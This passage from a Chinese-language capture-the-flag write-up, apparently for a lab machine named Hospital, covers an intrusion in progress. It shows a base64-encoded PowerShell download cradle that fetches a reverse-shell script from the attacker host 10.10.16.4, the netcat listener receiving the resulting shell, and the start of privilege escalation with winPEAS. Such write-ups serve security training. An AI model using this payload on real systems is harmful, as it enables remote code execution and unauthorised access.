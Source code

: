    ```
   └─# echo 'IEX(New-Object System.Net.WebClient).DownloadString("http://10.10.16.4/Invoke-PowerShellTcp.ps1")'|iconv -t utf-16le|base64 -w0
   SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4ANAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQAKAA==  
   ```
   
   利用powershell的-enc去解码执行即可触发我们的有效负载。
   
   
   
   再次将恶意的eps文件发送给目标，不一会儿就触发了负载，成功获取了目标机器的shell
   
   ```
   └─# nc -nvlp 443                       
   listening on [any] 443 ...
   connect to [10.10.16.4] from (UNKNOWN) [10.10.11.241] 6268
   Windows PowerShell running as user drbrown on DC
   Copyright (C) 2015 Microsoft Corporation. All rights reserved.
   
   PS C:\Users\drbrown.HOSPITAL\Documents>whoami
   hospital\drbrown
   PS C:\Users\drbrown.HOSPITAL\Documents> ipconfig
   
   Windows IP Configuration
   
   
   Ethernet adapter vEthernet (Switch01):
   
      Connection-specific DNS Suffix  . : 
      Link-local IPv6 Address . . . . . : fe80::3488:527f:9c75:ed51%14
      IPv4 Address. . . . . . . . . . . : 192.168.5.1
      Subnet Mask . . . . . . . . . . . : 255.255.255.0
      Default Gateway . . . . . . . . . : 
   
   Ethernet adapter Ethernet0 2:
   
      Connection-specific DNS Suffix  . : 
      Link-local IPv6 Address . . . . . : fe80::dd8d:7010:6cc8:efd%12
      IPv4 Address. . . . . . . . . . . : 10.10.11.241
      Subnet Mask . . . . . . . . . . . : 255.255.254.0
      Default Gateway . . . . . . . . . : 10.10.10.2
   PS C:\Users\drbrown.HOSPITAL\Documents> 
   ```
   
   

# 03、特权提升

1. 上传winpeasany.exe检索提权向量

   发现我们对web服务路径拥有写权限

   ![image-20231122132449759](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221338682.png)
